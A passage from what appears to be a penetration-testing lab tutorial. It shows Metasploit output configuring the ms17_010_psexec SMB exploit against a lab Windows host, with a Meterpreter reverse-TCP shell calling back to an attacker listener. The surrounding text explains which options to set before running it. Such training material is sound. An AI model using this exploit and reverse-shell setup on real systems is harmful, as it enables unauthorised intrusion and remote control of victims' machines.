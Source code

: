 ```shell
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

Be sure to set your payload options correctly before running the exploit. Any options that have `Required` set to yes will be a necessary space to fill. In this instance, we need to ensure that our `RHOSTS, LHOST, and LPORT` fields are correctly set. For this attempt, accepting the defaults for the rest is OK.

#### Validate Our Options

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

```